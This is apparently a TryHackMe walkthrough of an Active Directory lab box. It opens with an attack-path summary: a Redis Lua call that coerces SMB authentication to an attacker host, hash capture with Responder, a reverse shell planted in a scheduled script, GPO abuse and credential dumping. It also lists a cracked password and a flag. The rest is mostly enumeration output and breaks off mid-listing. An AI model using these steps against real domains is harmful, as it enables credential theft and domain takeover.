


<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows (AD, `vulnnet.local`), **Difficulty:** Medium

</div>

<div class="callout callout-abstract">

**Attack Path**

1. **Redis** on 6379, no auth (`redis-cli -h ...`). Its keys reference a user. Redis Lua `eval("dofile('//ATTACKER//share')")` → coerce SMB auth → **Responder** captures `enterprise-security`'s NetNTLMv2 → crack → **`enterprise-security : sand_0873959498`**.
2. SMB `Enterprise-Share` is writable and contains a PowerShell script that runs on a schedule as `enterprise-security`, replace it with a reverse shell → shell.
3. **BloodHound**: `enterprise-security` has **`GenericWrite` over the `SECURITY-POL-VN` GPO** → **GPO abuse** with `pyGPOAbuse.py` to add a scheduled task that makes us local admin.
4. Local admin → dump SAM / `reg save` + `secretsdump` (or the scheduled task runs SYSTEM directly) → Administrator → flags.

</div>

<div class="callout callout-key">

**Credentials**

- `enterprise-security` : `sand_0873959498`

</div>

<div class="callout callout-success">

**Flags**

- `THM{d540c0645975900e5bb9167aa431fc9b}` (system.txt)

</div>

---

## Full Walkthrough

I started with a fast full-port sweep using Rustscan to get an initial picture of what was exposed before committing to a slower, more detailed enumeration pass:

```
Open 10.10.205.142:53
Open 10.10.205.142:135
Open 10.10.205.142:139
Open 10.10.205.142:445
Open 10.10.205.142:464
Open 10.10.205.142:6379
Open 10.10.205.142:9389
```

The open ports, 445, 139, 88, and DNS on 53, told me this was a domain controller before I'd even finished reading the scan, so I ran enum4linux next to pull whatever anonymous domain information it could reach:

```
 ================================( Getting domain SID for 10.10.205.142 )================================

Domain Name: VULNNET
Domain Sid: S-1-5-21-1405206085-1650434706-76331420
```



That confirmed anonymous enumeration was working and gave me the domain SID, so I followed it up with kerbrute against a shortlist of common usernames to see who actually existed on the domain:

```bash
kerbrute userenum --dc 10.10.205.142 -d VULNNET /usr/share/SecLists/Usernames/top-usernames-shortlist.txt 
```



```bash
10.10.205.142:6379> config get *
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) ""
  5) "masterauth"
  6) ""
  7) "unixsocket"
  8) ""
  9) "logfile"
 10) ""
 11) "pidfile"
 12) "/var/run/redis.pid"
 13) "maxmemory"
 14) "0"
 15) "maxmemory-samples"
 16) "3"
 17) "timeout"
 18) "0"
 19) "tcp-keepalive"
 20) "0"
 21) "auto-aof-rewrite-percentage"
 22) "100"
 23) "auto-aof-rewrite-min-size"
 24) "67108864"
 25) "hash-max-ziplist-entries"
 26) "512"
 27) "hash-max-ziplist-value"
 28) "64"
 29) "list-max-ziplist-entries"
 30) "512"
 31) "list-max-ziplist-value"
 32) "64"
 33) "set-max-intset-entries"
 34) "512"
 35) "zset-max-ziplist-entries"
 36) "128"
 37) "zset-max-ziplist-value"
 38) "64"
 39) "hll-sparse-max-bytes"
 40) "3000"
 41) "lua-time-limit"
 42) "5000"
 43) "slowlog-log-slower-than"
 44) "10000"
 45) "latency-monitor-threshold"
 46) "0"
 47) "slowlog-max-len"
 48) "128"
 49) "port"
 50) "6379"
 51) "tcp-backlog"
 52) "511"
 53) "databases"
 54) "16"
 55) "repl-ping-slave-period"
 56) "10"
 57) "repl-timeout"
 58) "60"
 59) "repl-backlog-size"
 60) "1048576"
 61) "repl-backlog-ttl"
 62) "3600"
 63) "maxclients"
 64) "10000"
 65) "watchdog-period"
 66) "0"
 67) "slave-priority"
 68) "100"
 69) "min-slaves-to-write"
 70) "0"
 71) "min-slaves-max-lag"
 72) "10"
 73) "hz"
 74) "10"
 75) "repl-diskless-sync-delay"
 76) "5"
 77) "no-appendfsync-on-rewrite"
 78) "no"
 79) "slave-serve-stale-data"
 80) "yes"
 81) "slave-read-only"
 82) "yes"
 83) "stop-writes-on-bgsave-error"
 84) "yes"
 85) "daemonize"
 86) "no"
 87) "rdbcompression"
 88) "yes"
 89) "rdbchecksum"
 90) "yes"
 91) "activerehashing"
 92) "yes"
 93) "repl-disable-tcp-nodelay"
 94) "no"
 95) "repl-diskless-sync"
 96) "no"
 97) "aof-rewrite-incremental-fsync"
 98) "yes"
 99) "aof-load-truncated"
100) "yes"
101) "appendonly"
102) "no"
103) "dir"
104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"
105) "maxmemory-policy"
106) "volatile-lru"
107) "appendfsync"
108) "everysec"
109) "save"
110) "jd 3600 jd 300 jd 60"
111) "loglevel"
112) "notice"
113) "client-output-buffer-limit"
114) "normal 0 0 0 slave 268435456 67108864 60 pubsub 33554432 8388608 60"
115) "unixsocketperm"
116) "0"
117) "slaveof"
118) ""
119) "notify-keyspace-events"
120) ""
121) "bind"
122) ""
```

With the Redis config dump giving me a working directory path but nothing immediately exploitable, I turned back to enumerating other services on the domain controller and ran an RPC dump to see exactly which endpoints it exposed:

```bash
python3 rpcdump.py @VulnNet.thm
```

```bash
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Retrieving endpoint list from VulnNet.thm
Protocol: [MS-RSP]: Remote Shutdown Protocol 
Provider: wininit.exe 
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.205.142[49664]
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc067D70]

Protocol: N/A 
Provider: winlogon.exe 
UUID    : 76F226C3-EC14-4325-8A99-6A46348418AF v1.0 
Bindings: 
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc067D70]
          ncalrpc:[WMsgKRpc067811]

Protocol: N/A 
Provider: N/A 
UUID    : D09BDEB5-6171-4A34-BFE2-06FA82652568 v1.0 
Bindings: 
          ncalrpc:[csebpub]
          ncalrpc:[LRPC-e29a71668a6ba589ce]
          ncalrpc:[LRPC-6d4608af8c26c381a4]
          ncalrpc:[LRPC-abe3cf691be59b7817]
          ncalrpc:[LRPC-ca68dbd1208add84ea]
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-6d4608af8c26c381a4]
          ncalrpc:[LRPC-abe3cf691be59b7817]
          ncalrpc:[LRPC-ca68dbd1208add84ea]
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-abe3cf691be59b7817]
          ncalrpc:[LRPC-ca68dbd1208add84ea]
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncalrpc:[LRPC-c3bc9f6a1fd1523bb5]
          ncalrpc:[LRPC-424400c5b8c938ea6f]
          ncalrpc:[LRPC-cbfee93f82cf811571]

Protocol: N/A 
Provider: N/A 
UUID    : 697DCDA9-3BA9-4EB2-9247-E11F1901B0D2 v1.0 
Bindings: 
          ncalrpc:[LRPC-e29a71668a6ba589ce]
          ncalrpc:[LRPC-6d4608af8c26c381a4]
          ncalrpc:[LRPC-abe3cf691be59b7817]
          ncalrpc:[LRPC-ca68dbd1208add84ea]
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 9B008953-F195-4BF9-BDE0-4471971E58ED v1.0 
Bindings: 
          ncalrpc:[LRPC-6d4608af8c26c381a4]
          ncalrpc:[LRPC-abe3cf691be59b7817]
          ncalrpc:[LRPC-ca68dbd1208add84ea]
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : DD59071B-3215-4C59-8481-972EDADC0F6A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0D47017B-B33B-46AD-9E18-FE96456C5078 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 95406F0B-B239-4318-91BB-CEA3A46FF0DC v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4ED8ABCC-F1E2-438B-981F-BB0E8ABC010C v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0FF1F646-13BB-400A-AB50-9A78F2B7A85A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 6982A06E-5FE2-46B1-B39C-A2C545BFA069 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 082A3471-31B6-422A-B931-A54401960C62 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : FAE436B0-B864-4A87-9EDA-298547CD82F2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : E53D94CA-7464-4839-B044-09A2FB8B3AE5 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 178D84BE-9291-4994-82C6-3F909ACA5A03 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4DACE966-A243-4450-AE3F-9B7BCB5315B8 v2.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 1832BCF6-CAB8-41D4-85D2-C9410764F75A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : C521FACF-09A9-42C5-B155-72388595CBF0 v0.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2C7FD9CE-E706-4B40-B412-953107EF9BB0 v0.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 88ABCBC3-34EA-76AE-8215-767520655A23 v0.0 
Bindings: 
          ncalrpc:[LRPC-ca68dbd1208add84ea]
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 76C217BC-C8B4-4201-A745-373AD9032B1A v1.0 
Bindings: 
          ncalrpc:[LRPC-ca68dbd1208add84ea]
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 55E6B932-1979-45D6-90C5-7F6270724112 v1.0 
Bindings: 
          ncalrpc:[LRPC-ca68dbd1208add84ea]
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 857FB1BE-084F-4FB5-B59C-4B2C4BE5F0CF v1.0 
Bindings: 
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : B8CADBAF-E84B-46B9-84F2-6F71C03F9E55 v1.0 
Bindings: 
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 20C40295-8DBA-48E6-AEBF-3E78EF3BB144 v1.0 
Bindings: 
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2513BCBE-6CD4-4348-855E-7EFB3C336DD3 v1.0 
Bindings: 
          ncalrpc:[LRPC-b3ff90641890b89197]
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 0D3E2735-CEA0-4ECC-A9E2-41A2D81AED4E v1.0 
Bindings: 
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : C605F9FB-F0A3-4E2A-A073-73560F8D9E3E v1.0 
Bindings: 
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 1B37CA91-76B1-4F5E-A3C7-2ABFC61F2BB0 v1.0 
Bindings: 
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 8BFC3BE1-6DEF-4E2D-AF74-7C47CD0ADE4A v1.0 
Bindings: 
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 2D98A740-581D-41B9-AA0D-A88B9D5CE938 v1.0 
Bindings: 
          ncalrpc:[LRPC-2b697ff3d241fcc438]
          ncalrpc:[OLEFDD8D60E961CF67F6A7C8C714B5A]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\LSM_API_service]
          ncalrpc:[LSMApi]
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]

Protocol: N/A 
Provider: sysntfy.dll 
UUID    : C9AC6DB5-82B7-4E55-AE8A-E464ED7B4277 v1.0 Impl friendly name
Bindings: 
          ncalrpc:[LRPC-9fc4be4247647be376]
          ncalrpc:[actkernel]
          ncalrpc:[umpo]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]
          ncacn_ip_tcp:10.10.205.142[49667]

Protocol: N/A 
Provider: N/A 
UUID    : 0361AE94-0316-4C6C-8AD8-C594375800E2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 5824833B-3C1A-4AD2-BDFD-C31D19E23ED2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : BDAA0970-413B-4A3E-9E5D-F6DC9D7E0760 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 3B338D89-6CFA-44B8-847E-531531BC9992 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 8782D3B9-EBBD-4644-A3D8-E8725381919B v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 085B0334-E454-4D91-9B8C-4134F9E793F3 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 4BEC6BB8-B5C2-4B6F-B2C1-5DA5CF92D0D9 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 3473DD4D-2E88-4006-9CBA-22570909DD10 v5.1 WinHttp Auto-Proxy Service
Bindings: 
          ncalrpc:[cc376ae9-aa71-4635-9268-edcf72847858]
          ncalrpc:[LRPC-f9c1d28b77c655abcf]
          ncacn_ip_tcp:10.10.205.142[49665]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\eventlog]
          ncalrpc:[eventlog]
          ncalrpc:[dhcpcsvc]
          ncalrpc:[dhcpcsvc6]
          ncalrpc:[LRPC-e3eeec25752585a989]
          ncalrpc:[LRPC-c3bc9f6a1fd1523bb5]
          ncalrpc:[LRPC-424400c5b8c938ea6f]

Protocol: [MS-EVEN6]: EventLog Remoting Protocol 
Provider: wevtsvc.dll 
UUID    : F6BEAFF7-1E19-4FBB-9F8F-B89E2018337C v1.0 Event log TCPIP
Bindings: 
          ncacn_ip_tcp:10.10.205.142[49665]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\eventlog]
          ncalrpc:[eventlog]
          ncalrpc:[dhcpcsvc]
          ncalrpc:[dhcpcsvc6]
          ncalrpc:[LRPC-e3eeec25752585a989]
          ncalrpc:[LRPC-c3bc9f6a1fd1523bb5]
          ncalrpc:[LRPC-424400c5b8c938ea6f]

Protocol: N/A 
Provider: dhcpcsvc.dll 
UUID    : 3C4728C5-F0AB-448B-BDA1-6CE01EB0A6D5 v1.0 DHCP Client LRPC Endpoint
Bindings: 
          ncalrpc:[dhcpcsvc]
          ncalrpc:[dhcpcsvc6]
          ncalrpc:[LRPC-e3eeec25752585a989]
          ncalrpc:[LRPC-c3bc9f6a1fd1523bb5]
          ncalrpc:[LRPC-424400c5b8c938ea6f]

Protocol: N/A 
Provider: dhcpcsvc6.dll 
UUID    : 3C4728C5-F0AB-448B-BDA1-6CE01EB0A6D6 v1.0 DHCPv6 Client LRPC Endpoint
Bindings: 
          ncalrpc:[dhcpcsvc6]
          ncalrpc:[LRPC-e3eeec25752585a989]
          ncalrpc:[LRPC-c3bc9f6a1fd1523bb5]
          ncalrpc:[LRPC-424400c5b8c938ea6f]

Protocol: N/A 
Provider: N/A 
UUID    : A500D4C6-0DD1-4543-BC0C-D5F93486EAF8 v1.0 
Bindings: 
          ncalrpc:[LRPC-e3eeec25752585a989]
          ncalrpc:[LRPC-c3bc9f6a1fd1523bb5]
          ncalrpc:[LRPC-424400c5b8c938ea6f]

Protocol: N/A 
Provider: nrpsrv.dll 
UUID    : 30ADC50C-5CBC-46CE-9A0E-91914789E23C v1.0 NRP server endpoint
Bindings: 
          ncalrpc:[LRPC-424400c5b8c938ea6f]

Protocol: N/A 
Provider: pcasvc.dll 
UUID    : 0767A036-0D22-48AA-BA69-B619480F38CB v1.0 PcaSvc
Bindings: 
          ncalrpc:[LRPC-50ec61d1b732fbe938]
          ncalrpc:[LRPC-2100e9947ca3063497]
          ncalrpc:[TSUMRPD_PRINT_DRV_LPC_API]
          ncalrpc:[LRPC-bc2bffa6b2ba943450]
          ncalrpc:[OLE48650D0E41CB9EB2FF3B021F0564]
          ncalrpc:[LRPC-b524375171698ec1b1]
          ncalrpc:[LRPC-cbfee93f82cf811571]

Protocol: N/A 
Provider: N/A 
UUID    : BF4DC912-E52F-4904-8EBE-9317C1BDD497 v1.0 
Bindings: 
          ncalrpc:[LRPC-50ec61d1b732fbe938]
          ncalrpc:[LRPC-2100e9947ca3063497]
          ncalrpc:[TSUMRPD_PRINT_DRV_LPC_API]
          ncalrpc:[LRPC-bc2bffa6b2ba943450]
          ncalrpc:[OLE48650D0E41CB9EB2FF3B021F0564]
          ncalrpc:[LRPC-b524375171698ec1b1]
          ncalrpc:[LRPC-cbfee93f82cf811571]

Protocol: N/A 
Provider: sysmain.dll 
UUID    : B58AA02E-2884-4E97-8176-4EE06D794184 v1.0 
Bindings: 
          ncalrpc:[LRPC-2100e9947ca3063497]
          ncalrpc:[TSUMRPD_PRINT_DRV_LPC_API]
          ncalrpc:[LRPC-bc2bffa6b2ba943450]
          ncalrpc:[OLE48650D0E41CB9EB2FF3B021F0564]
          ncalrpc:[LRPC-b524375171698ec1b1]
          ncalrpc:[LRPC-cbfee93f82cf811571]

Protocol: N/A 
Provider: N/A 
UUID    : E40F7B57-7A25-4CD3-A135-7F7D3DF9D16B v1.0 Network Connection Broker server endpoint
Bindings: 
          ncalrpc:[LRPC-bc2bffa6b2ba943450]
          ncalrpc:[OLE48650D0E41CB9EB2FF3B021F0564]
          ncalrpc:[LRPC-b524375171698ec1b1]
          ncalrpc:[LRPC-cbfee93f82cf811571]

Protocol: N/A 
Provider: N/A 
UUID    : 880FD55E-43B9-11E0-B1A8-CF4EDFD72085 v1.0 KAPI Service endpoint
Bindings: 
          ncalrpc:[LRPC-bc2bffa6b2ba943450]
          ncalrpc:[OLE48650D0E41CB9EB2FF3B021F0564]
          ncalrpc:[LRPC-b524375171698ec1b1]
          ncalrpc:[LRPC-cbfee93f82cf811571]

Protocol: N/A 
Provider: N/A 
UUID    : 5222821F-D5E2-4885-84F1-5F6185A0EC41 v1.0 Network Connection Broker server endpoint for NCB Reset module
Bindings: 
          ncalrpc:[LRPC-b524375171698ec1b1]
          ncalrpc:[LRPC-cbfee93f82cf811571]

Protocol: N/A 
Provider: N/A 
UUID    : A4B8D482-80CE-40D6-934D-B22A01A44FE7 v1.0 LicenseManager
Bindings: 
          ncalrpc:[LicenseServiceEndpoint]

Protocol: N/A 
Provider: nsisvc.dll 
UUID    : 7EA70BCF-48AF-4F6A-8968-6A440754D5FA v1.0 NSI server endpoint
Bindings: 
          ncalrpc:[LRPC-799b4990df90cf1faa]

Protocol: N/A 
Provider: N/A 
UUID    : C49A5A70-8A7F-4E70-BA16-1E8F1F193EF1 v1.0 Adh APIs
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncalrpc:[LRPC-6a782eeaaaa5904c7b]
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: N/A 
UUID    : C36BE077-E14B-4FE9-8ABC-E856EF4F048B v1.0 Proxy Manager client server endpoint
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncalrpc:[LRPC-6a782eeaaaa5904c7b]
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: N/A 
UUID    : 2E6035B2-E8F1-41A7-A044-656B439C4C34 v1.0 Proxy Manager provider server endpoint
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncalrpc:[LRPC-6a782eeaaaa5904c7b]
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: iphlpsvc.dll 
UUID    : 552D076A-CB29-4E44-8B6A-D15E59E2C0AF v1.0 IP Transition Configuration endpoint
Bindings: 
          ncalrpc:[LRPC-6a782eeaaaa5904c7b]
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: N/A 
